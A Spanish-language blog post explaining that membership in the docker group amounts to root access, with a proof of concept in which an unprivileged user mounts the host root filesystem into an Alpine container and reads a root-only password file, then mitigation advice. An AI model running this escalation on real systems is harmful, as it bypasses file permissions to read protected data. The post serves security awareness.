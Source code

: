 ```yaml
---
title: 'Docker puede ser un problema de seguridad en tu sistema'
date: '2022-02-13'
tags: ["Hacking", "Docker", "Vulnerabilities", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: '![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/docker.webp)'
---
```


![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/docker.webp)

Docker nació (o mejor dicho, fue presentado al público) en la PyCon de 2013 en una charla titulada *"The future of Linux Containers"*. Recomiendo ver el video que aparece a continuación (son menos de 6 minutos) y disfrutar del hecho de que en la informática, estamos viviendo lo que en un futuro será la "historia del desarrollo de software".

Y es que los *Albert Einstein* del software como *[Linus Torvalds](https://es.wikipedia.org/wiki/Linus_Torvalds), [Robert C. Martin](https://es.wikipedia.org/wiki/Robert_C._Martin), [Martin Fowler](https://martinfowler.com/), [Guido Van Rossum](https://es.wikipedia.org/wiki/Guido_van_Rossum)* o muchos de los inventores de lenguajes de programación que se encuentran en el 99% del software que utilizamos, están vivos a día de hoy.

Pero volviendo al tema de Docker. Docker no trajo consigo la tecnología de contenedores que se usa en Linux. Esto es algo que lleva existiendo desde [hace más de 20 años](https://blog.aquasec.com/a-brief-history-of-containers-from-1970s-chroot-to-docker-2016) con diferentes nombres como Chroot en 1979, Jails en el 2000 y contenedores a partir de 2004. Pero no fue hasta el 2013 cuando esta tecnología se empezó a utilizar por la mayoría de la gente.

La verdadera ventaja que trajo Docker, fue la posibilidad de intercambiar imágenes de contenedores entre sistemas de una forma sencilla con los manifiestos Dockerfile y todo el ecosistema de alrededor. Pero no está libre de ser juzgado por mucha gente.

**Uno de los problemas que se le achaca a Docker es que Docker Daemon se ejecuta como Root.** Y esto trae implicaciones indirectas como veremos a continuación.

Cuando instalamos Docker siguiendo el tutorial su [página oficial](https://docs.docker.com/engine/install/ubuntu/), nos invita a seguir un proceso post-instalación en la [siguiente página](https://docs.docker.com/engine/install/linux-postinstall/) donde nos enseñan que **podemos ejecutar Docker sin permisos de root, metiendo a un usuario normal al grupo de Docker**. Y es que aquí está la clave del problema. Podemos llegar a pensar que ejecutar Docker con un usuario normal es más seguro, cuando eso no cambia nada y de hecho, te da una sensación de seguridad que puede resultarte caro como veremos en la prueba de concepto.

Por romper una lanza a favor de ellos, en esa misma página podemos encontrar el cuadro a continuación.

![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-23.webp)

Y es que si, todos (o al menos yo alguna vez) solemos pasar por alto este tipo de mensajes si es que hemos llegado a verlos, porque en la mayoría de los blogs donde nos enseñan a instalar Docker en nuestro sistema directamente no nos previenen del riesgo de tener un usuario "sin privilegios" en el grupo de Docker. Además, "eso de Daemon Attack Surface a mi me suena a chino" 😎.

Prueba de concepto
==================

1. Contexto del problema
------------------------

Tenemos 2 usuarios en nuestro sistema, **root** y **demo**.


```
──[root@parrot]─[/root]──# id
uid=0(root) gid=0(root) grupos=0(root)
```

```
──[demo@parrot]─[/home/demo]$ id
uid=1001(demo) gid=1003(demo) grupos=1003(demo),1000(docker)
```
Como vemos, demo está en el grupo Docker para poder lanzar contenedores y realizar su gestión. Como demo es un usuario con pocos privilegios, además, es un poco con el que solemos hacer todo pensando que así estamos más seguros.

2. El archivo "protegido" de root
---------------------------------

Hay un archivo en /home que se llama password.txt. Este archivo, en principio, tiene permisos 400 para que solo el usuario root pueda leer su contenido.


```
──[root@parrot]─[/home]──# ls -l
total 4
drwxr-xr-x 1 demo demo 204 Feb 13 21:00 demo
-r-------- 1 root root  16 Feb 13 21:03 password.txt
drwxr-xr-x 1 user user 614 Feb 13 19:53 user
```
![](/static/images/uploads/docker-puede-ser-un-problema-de-seguridad/image-24.webp)

Si no conoces como funcionan los permisos de Linux no pasa nada, simplemente créete la siguiente afirmación de lo que ocurre.

**Ningún otro usuario, ni grupo del sistema, puede acceder al contenido del archivo password.txt con los permisos actuales.**

Si aún así intentamos leer su contenido con el usuario demo, vemos el siguiente error.


```
──[demo@parrot]─[~/demo]───$ cat /home/password.txt 
cat: /home/password.txt: Permiso denegado
```
Hasta aquí todo bien, ¿correcto?

3. Docker Daemon Attack Surface
-------------------------------

A continuación, el usuario demo, el que no tenía privilegios, el que no podía leer el contenido de root, crea un contenedor del siguiente modo.


```
──[demo@parrot]─[~/demo]───$ docker run -v /:/vulnerable -it alpine /bin/sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
/ #
```
Y una vez, dentro del contenedor, empieza la magia 🧙‍♂️.


```
/ # whoami
root
/ # cat vulnerable/home/password.txt
P0wn3dP@ssw0rd!
```
Es decir, un usuario sin privilegios, fuera del contexto de los contenedores no teníamos acceso a los archivos que root controlaba. 

Dentro del contexto de los contenedores, si mapeamos en un volumen la raíz de todo el disco a una ruta del contenedor, tendremos control total de los archivos del sistema.

4. Conclusión
-------------

¿Es el título del post clickbait? En parte sí. Más que una vulnerabilidad es un problema de no tener las cosas bien configuradas. 

¿La página oficial de Docker podría explicar el problema o señalarlo de una mejor forma? Seguro que también.

La realidad es que ellos no tienen la culpa. En su misma página explican todo esto. Y la realidad también es que poca gente es conocedora de este problema de "mala configuración". Es responsabilidad de todos hacer pedagogía y explicarles a nuestros compañeros los riesgos que acarrea según que cosas y yo, con este post, dejo mi granito de arena.

¿Cómo deberías mitigar esto? Teniendo en mente que el usuario con el que gestionas Docker es como un usuario root. Protégelo con una buena contraseña y aíslalo del resto de cosas que haces en el sistema.

